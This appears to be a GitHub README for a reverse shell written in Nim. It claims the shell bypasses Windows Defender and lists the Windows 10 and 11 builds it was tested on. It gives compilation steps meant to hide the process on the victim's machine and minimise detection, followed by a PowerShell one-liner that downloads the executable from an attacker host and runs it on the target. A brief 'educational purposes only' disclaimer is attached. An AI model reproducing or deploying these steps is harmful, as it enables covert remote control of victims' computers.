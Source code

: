 # Nim Reverse Shell

A simple reverse shell is written in Nim that bypasses Windows Defender detection (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10 (10.0.19045) 
- Windows 11 (10.0.22621)
- Windows 11 (10.0.22631)

## Installation

Installing MingW64:

```bash
apt install mingw-w64
```

Installing Nim:

```bash
apt install nim
```

## Compilation

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). I strongly recommend following the below example for minimum detections as possible.

```bash
nim c -d:mingw --app:gui rev_shell.nim
```

## On Windows(Target Machine)

```powershell
Invoke-WebRequest -Uri http://<ip_address>:<port>/rev_shell.exe -OutFile rev_shell.exe ; ./rev_shell.exe
```
